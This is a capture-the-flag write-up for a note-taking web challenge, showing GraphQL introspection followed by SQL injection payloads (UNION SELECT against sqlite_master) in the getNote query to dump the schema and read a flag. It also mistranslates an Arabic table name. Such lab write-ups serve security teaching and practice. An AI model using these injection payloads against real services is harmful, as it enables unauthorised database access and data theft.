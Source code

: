 
# Graphed 2.0

"graphed notes is finally here !!!!!! but it looks like something is still broken with that site"

`<link to website>`

<hr>

![Graphed Landing Page](images/graphed_landing.png)

On the root path `/`, we get a text input box to submit a note. However, when submitting an alert pops up that says
`"sorry but this functionality is disabeled due to technical problems"`.

Having a look at the source code there are some commented out rows:
```javascript
function create_note() {
    alert("sorry but this functionality is disabeled due to technical problems");
    //query_data = `mutation {createNote(body:${document.getElementById("note-content").value}, title:"anon note", username:"guest"){note{uuid}}}`;
    //fetch(`/graphql?query=mutation{createNote(body:"ww", title:"anon note", username:"guest"){note{uuid}}}`, {method: "POST"});
}
```

Using the `/graphql` path, we are able to query a database using GraphQL, with the `query` URL argument.

A GraphQL introspection gives us the all possible queries that can be made to the database:
```
/graphql?query={ __schema { queryType { fields { name description args { name type {name }}}}}}

Response:
{
  "data": {
    "__schema": {
      "queryType": {
        "fields": [
          {
            "name": "node",
            "description": "The ID of the object",
            "args": [
                ...
            ]
          },
          {
            "name": "allNotes",
            "description": null,
            "args": [
                ...
            ]
          },
          {
            "name": "allUsers",
            "description": null,
            "args": [
                ...
            ]
          },
          {
            "name": "coolNotes",
            "description": null,
            "args": []
          },
          {
            "name": "getNote",
            "description": null,
            "args": [
              {
                "name": "q",
                "type": {
                  "name": "String"
                }
              }
            ]
          }
        ]
      }
    }
  }
}
```

The query `getNote` is the only query without any default count or pagination arguments, having only one argument `q` that is of type `String`.

Lets try using the `getNote` query to inject some SQL code!

Passing our injection code to the argument `q` in `getNote`, we can retrieve all table names and SQL commands used to create every each table. 
```
/graphql?query={ getNote(q: "2' AND 1=2 UNION SELECT tbl_name, sql, 1, 1 FROM sqlite_master --") { id }}

Response:
{
  "errors": [
    {
      "message": "Received incompatible instance \"('Notes', 'CREATE INDEX \"ix_Notes_title\" ON \"Notes\" (title)', 1, 1)\"."
    },
    {
      "message": "Received incompatible instance \"('Notes', 'CREATE TABLE \"Notes\" (\\n\\tuuid INTEGER NOT NULL, \\n\\ttitle VARCHAR(256), \\n\\tbody TEXT, \\n\\tauthor_id INTEGER, \\n\\tPRIMARY KEY (uuid), \\n\\tFOREIGN KEY(author_id) REFERENCES users (uuid)\\n)', 1, 1)\"."
    },
    {
      "message": "Received incompatible instance \"('users', 'CREATE TABLE users (\\n\\tuuid INTEGER NOT NULL, \\n\\tusername VARCHAR(256), \\n\\tPRIMARY KEY (uuid)\\n)', 1, 1)\"."
    },
    {
      "message": "Received incompatible instance \"('users', 'CREATE UNIQUE INDEX ix_users_username ON users (username)', 1, 1)\"."
    },
    {
      "message": "Received incompatible instance \"('العلم', 'CREATE TABLE العلم (id INTEGER PRIMARY KEY, flag TEXT NOT NULL)', 1, 1)\"."
    }
  ],
  "data": {
    "getNote": [
        ...
    ]
  }
}
```

Oddly enough we see a table called `العلم` which in arabic translates to "`science`". The `science` table contains two columns, `id` and `flag`. 

Querying all rows from the `science` table we get:
```
/graphql?query={ getNote(q: "2' AND 1=2 UNION SELECT id, flag, 1,1 FROM العلم --") { id } }

Response:
{
  "errors": [
    {
      "message": "Received incompatible instance \"(0, \"flag{h0p3_u_can't_r3@d_1t9176}\", 1, 1)\"."
    }
  ],
  "data": {
    "getNote": [
        ...
    ]
}
```

Giving us the flag:
```
flag{h0p3_u_can't_r3@d_1t9176}
```
